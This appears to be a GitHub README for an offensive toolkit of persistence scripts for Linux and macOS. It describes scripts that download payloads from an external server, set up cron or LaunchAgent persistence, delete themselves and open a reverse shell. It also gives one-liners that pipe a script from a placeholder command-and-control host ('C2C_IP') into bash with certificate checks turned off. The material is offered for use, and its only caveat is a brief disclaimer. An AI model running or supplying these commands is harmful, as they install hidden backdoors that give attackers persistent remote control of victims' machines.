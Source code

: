 # Persistence Bash Script for Linux and OSX

### Linux
Script for Linux downloads an elf payload from external url and set cron persistence on reboot, then remove itself. It checks if script is launched as root or as user.

##### ONE LINER LINUX
`$ wget -q --no-check-certificate -O - https://C2C_IP/linux_persistence | bash`

### OSX
Script for OSX downloads a Mach-O file from external url then making persistence downloading a plist and LaunchAgents from external url, lastly executes macho reverse shell.

##### ONE LINER OSX
`$ curl -s -k https://C2C_IP/osx_persistence | bash`

*Please note that i'm not responsible for any damages and illegal use. Don't be a twat!*
